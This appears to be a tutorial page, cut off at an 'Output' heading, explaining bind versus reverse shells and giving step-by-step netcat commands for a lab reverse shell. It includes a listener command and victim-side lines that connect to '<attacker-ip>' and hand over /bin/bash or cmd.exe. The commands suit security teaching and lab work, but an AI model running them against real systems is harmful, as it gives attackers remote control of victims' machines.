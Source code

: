 | Shell Type     | Who Initiates | Direction           |
|----------------|---------------|---------------------|
| Bind Shell     | Attacker      | Connects to victim  |
| Reverse Shell  | Victim        | Connects to attacker |

Used in:
- CTFs
- Red team engagements
- Lab exploitation scenarios

---

### ⚠️ Legal Warning

⚠️ Reverse shells are **extremely dangerous** and should **ONLY** be tested in **legal, safe labs** with permission.

---

## ⚙️ Netcat Reverse Shell Setup (LAB ONLY)

---

### 🔁 Step 1: Setup Listener (Attacker)

```bash
nc -lvp 4444
```

- `-l`: listen mode
- `-v`: verbose
- `-p 4444`: port number (customizable)

---

### 🔁 Step 2: Victim Sends Shell Back

On the **victim machine**, run:

```bash
nc <attacker-ip> 4444 -e /bin/bash
```

Or on Windows:

```powershell
nc.exe <attacker-ip> 4444 -e cmd.exe
```

**Note**: Some modern systems block `-e` option — alternatives include using named pipes or other payloads via Metasploit.

---

### 🔁 Output (Attacker's Terminal)
